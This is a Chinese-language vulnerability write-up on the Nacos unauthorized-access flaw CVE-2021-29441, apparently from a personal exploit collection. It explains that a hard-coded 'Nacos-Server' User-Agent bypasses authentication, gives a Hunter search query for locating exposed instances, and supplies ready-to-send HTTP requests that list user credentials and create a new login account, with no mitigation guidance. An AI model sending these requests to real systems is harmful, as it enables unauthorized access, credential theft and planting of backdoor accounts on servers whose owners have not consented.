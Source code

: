 # Nacos未授权访问漏洞(CVE-2021-29441)

# 一、漏洞简介
<font style="color:rgb(63, 63, 63);">Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。</font>

# <font style="color:rgb(63, 63, 63);">二、影响版本</font>
+ <font style="color:rgb(63, 63, 63);">Nacos <= 2.0.0-ALPHA.1</font>

# <font style="color:rgb(63, 63, 63);">三、资产测绘</font>
+ hunter`app.name="Nacos"`
+ 特征

![1706098466504-aee1dd64-8194-4680-a095-f9ac7f516937.png](./img/MraeKPVNc9lFkzMT/1706098466504-aee1dd64-8194-4680-a095-f9ac7f516937-600623.png)

# 四、漏洞复现
poc

```plain
GET /nacos/v1/auth/users?pageNo=1&pageSize=100 HTTP/1.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cache-Control: no-cache
Pragma: no-cache
Host: 
```

![1706098516239-77b300ef-9d99-4851-8c5b-09f14ff38e48.png](./img/MraeKPVNc9lFkzMT/1706098516239-77b300ef-9d99-4851-8c5b-09f14ff38e48-585785.png)

通过未授权访问漏洞添加账号

```plain
POST /nacos/v1/auth/users HTTP/1.1
Host: 
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=test&password=test
```

![1706098649845-0dc1d324-3bf1-438a-a267-27f93e2863c6.png](./img/MraeKPVNc9lFkzMT/1706098649845-0dc1d324-3bf1-438a-a267-27f93e2863c6-376550.png)

查看是否添加成功

```plain
GET /nacos/v1/auth/users?pageNo=1&pageSize=100 HTTP/1.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cache-Control: no-cache
Pragma: no-cache
Host: 
```

![1706098709452-b9fed77f-cff0-4dbc-aa72-01a0ec7b9839.png](./img/MraeKPVNc9lFkzMT/1706098709452-b9fed77f-cff0-4dbc-aa72-01a0ec7b9839-049495.png)

使用添加的账号登录

![1706098751137-9bec97ee-2d67-45bd-9b76-a9d42245928d.png](./img/MraeKPVNc9lFkzMT/1706098751137-9bec97ee-2d67-45bd-9b76-a9d42245928d-182574.png)



> 更新: 2024-10-28 15:59:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gygvcmtv1bh6n6za>